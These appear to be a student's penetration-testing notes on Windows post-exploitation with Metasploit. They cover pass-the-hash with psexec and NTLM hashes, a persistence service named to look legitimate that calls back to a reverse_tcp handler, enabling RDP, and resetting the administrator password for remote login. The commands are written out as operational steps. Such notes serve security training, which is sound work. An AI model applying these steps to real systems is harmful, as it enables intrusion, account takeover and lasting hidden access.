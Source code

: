     - after u get the NTLM hashes using kiwi
    - `search psexec` && `use exploit/windows/smb/psexec`
    - `set payload windows/x64/meterpreter/reverse_tcp` ⇒ if the target is 64 bit && `set rhost <target ip>` && `set SMBuser Administrator` && `set smbpass <administrator hash >` && `set lhost` && `set lport` && `run`
    
      
    

  

- ==Establishing Persistence On Windows==

> persistence consists of techniques that adversaries use to keep access to system acreoss restart,changed credentials

> That’s mean that when we gain access to the target system , we will keep our hand on it , even if the target system restart , The credentials changed and so on .

> _So here we want to creat || setting up a persistent service on the target system that will constantly be running , that’s mean if we lose our meterpreter session we can get it back ._

- _==Establishing Persistence On Windows==_
    
    - After we Exploit the service we want , and get a meterpreter session ( we need a administrater access to the target system )
    - `search type:post name:persistence` && `use exploit/windows/peristence_service`
    - `set payload windows/meterpreter/reverse_tcp` && `set session < number of session >` && `run` && #==`set service_name < u can write a name of the service to be more realistice`==
    
    💡
    
    Now to get the conniction back to our hand
    
    - use multi/handler && set payload `windows/meterpreter/reverse_tcp( As the one on the peristence exploit)` && `set lhost` && `set lport` && `run`
    - now we will get the peristence meterpreter session again .
    
      
    
      
    

  

- **==_Enabling RDP_==**

> remote desktop protocol : is a GUI remote access protocol , used to remotly connect and interact with a windows system . on port 3389 , is default disabled

- ==_Enabling RDP_==
    
    - After we Exploit the service we want , and get a meterpreter session ( we need a administrater access to the target system )
    - `search enable_rdp` && `use post/windows/manage/enaable_rdp`
    - `set session <number of session >` && `==# u can create a new user set username && set password==`
    
    💡
    
    Now if we want to just a hack the system , we can change the password of the administrator , to open the rdp , or we can creat a new user
    
    - to change password ⇒ `net user administrator hacker123`
    - `to open rdp and login ⇒ xfreerdp /u:administrator /p:<password > /v:<target ip>`
    